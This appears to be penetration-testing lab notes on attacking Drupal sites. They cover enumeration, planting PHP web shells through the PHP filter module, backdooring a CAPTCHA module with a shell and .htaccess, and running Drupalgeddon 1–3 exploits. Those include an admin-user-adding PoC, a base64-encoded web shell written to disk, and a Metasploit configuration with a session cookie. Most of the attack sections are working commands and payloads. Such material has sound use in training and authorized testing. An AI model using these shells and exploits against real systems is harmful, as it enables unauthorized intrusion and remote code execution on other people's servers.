 # Discovery/Footprinting

```bash
$ curl -s http://drupal.inlanefreight.local | grep Drupal
```

Another way to identify Drupal CMS is through nodes. Drupal indexes its content using nodes. A node can hold anything such as a blog post, poll, article, etc. The page URIs are usually of the form /node/<nodeid>.

# Enumeration
```bash
$ curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
$ curl -s http://drupal.inlanefreight.local/CHANGELOG.txt

$ droopescan scan drupal -u http://drupal.inlanefreight.local
```

# Attacking Drupal
## Leveraging the PHP Filter Module
In older versions of Drupal (before version 8), it was possible to log in as an admin and enable the PHP filter module, which "Allows embedded PHP code/snippets to be evaluated.

From here, we could tick the check box next to the module and scroll down to Save configuration. Next, we could go to Content --> Add content and create a Basic page.

We can now create a page with a malicious PHP snippet such as the one below. We named the parameter with an md5 hash instead of the common cmd to get in the practice of not potentially leaving a door open to an attacker during our assessment. If we used the standard system($_GET['cmd']); we open up ourselves up to a "drive-by" attacker potentially coming across our web shell.
```php
<?php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
?>
```

We also want to make sure to set Text format drop-down to PHP code. After clicking save, we will be redirected to the new page, in this example http://drupal-qa.inlanefreight.local/node/3. Once saved, we can either request execute commands in the browser by appending ?dcfdd5e021a869fcc6dfaef8bf31377e=id to the end of the URL to run the id command or use cURL on the command line. From here, we could use a bash one-liner to obtain reverse shell access.
```bash
$ curl -s http://drupal-qa.inlanefreight.local/node/3?dcfdd5e021a869fcc6dfaef8bf31377e=id | grep uid | cut -f4 -d">"
```


From version 8 onwards, the PHP Filter module is not installed by default. To leverage this functionality, we would have to install the module ourselves.
```bash
$ wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Once downloaded go to Administration > Reports > Available updates.

From here, click on Browse, select the file from the directory we downloaded it to, and then click Install.

Once the module is installed, we can click on Content and create a new basic page, similar to how we did in the Drupal 7 example. Again, be sure to select PHP code from the Text format dropdown.

With either of these examples, we should keep our client apprised and obtain permission before making these sorts of changes. Also, once we are done, we should remove or disable the PHP Filter module and delete any pages that we created to gain remote code executio

## Uploading a Backdoored Module
Drupal allows users with appropriate permissions to upload a new module. A backdoored module can be created by adding a shell to an existing module. Modules can be found on the drupal.org website. Let's pick a module such as CAPTCHA. Scroll down and copy the link for the tar.gz archive.

Download the archive and extract its contents.
```bash
$ wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
$ tar xvf captcha-8.x-1.2.tar.gz
```

Create a PHP web shell.

Next, we need to create a .htaccess file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the /modules folder.

```
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

```bash
$ mv shell.php .htaccess captcha
$ tar cvf captcha.tar.gz captcha/
```

Assuming we have administrative access to the website, click on Manage and then Extend on the sidebar. Next, click on the + Install new module button, and we will be taken to the install page, such as http://drupal.inlanefreight.local/admin/modules/install Browse to the backdoored Captcha archive and click Install.

Once the installation succeeds, browse to /modules/captcha/shell.php to execute commands.
```bash
$ curl -s drupal.inlanefreight.local/modules/captcha/shell.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

## Leveraging Known Vulnerabilities
Over the years, Drupal core has suffered from a few serious remote code execution vulnerabilities, each dubbed Drupalgeddon. At the time of writing, there are 3 Drupalgeddon vulnerabilities in existence.

- CVE-2014-3704, known as Drupalgeddon, affects versions 7.0 up to 7.31 and was fixed in version 7.32. This was a pre-authenticated SQL injection flaw that could be used to upload a malicious form or create a new admin user.

- CVE-2018-7600, also known as Drupalgeddon2, is a remote code execution vulnerability, which affects versions of Drupal prior to 7.58 and 8.5.1. The vulnerability occurs due to insufficient input sanitization during user registration, allowing system-level commands to be maliciously injected.

- CVE-2018-7602, also known as Drupalgeddon3, is a remote code execution vulnerability that affects multiple versions of Drupal 7.x and 8.x. This flaw exploits improper validation in the Form API.

### Drupalgeddon
As stated previously, this flaw can be exploited by leveraging a pre-authentication SQL injection which can be used to upload malicious code or add an admin user. Let's try adding a new admin user with this [PoC](https://www.exploit-db.com/exploits/34992) script. Once an admin user is added, we could log in and enable the PHP Filter module to achieve remote code execution.
```bash
$ python2.7 drupalgeddon.py 

#  supply the target URL and a username and password for our new admin account
$ python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```

We could also use the exploit/multi/http/drupal_drupageddon Metasploit module to exploit this.

### Drupalgeddon2
We can use this [PoC](https://www.exploit-db.com/exploits/44448) to confirm this vulnerability. 
```bash 
$ python3 drupalgeddon2.py 

# We can check quickly with cURL and see that the hello.txt file was indeed uploaded.
$ curl -s http://drupal-dev.inlanefreight.local/hello.txt

$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

$ echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64 -d | tee mrb3n.php

$ curl http://drupal-dev.inlanefreight.local/mrb3n.php?fe8edbabc5c5c9b7b764504cd22b17af=id
```

### Drupalgeddon3
Drupalgeddon3 is an authenticated remote code execution vulnerability that affects multiple versions of Drupal core. It requires a user to have the ability to delete a node. We can exploit this using Metasploit, but we must first log in and obtain a valid session cookie.

Once we have the session cookie, we can set up the exploit module as follows.

```
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.42.195
msf6 exploit(multi/http/drupal_drupageddon3) > set VHOST drupal-acc.inlanefreight.local   
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS45ecfcb93a827c3e578eae161f280548=jaAPbanr2KhLkLJwo69t0UOkn2505tXCaEdu33ULV2Y
msf6 exploit(multi/http/drupal_drupageddon3) > set DRUPAL_NODE 1
msf6 exploit(multi/http/drupal_drupageddon3) > set LHOST 10.10.14.15
msf6 exploit(multi/http/drupal_drupageddon3) > show options 
```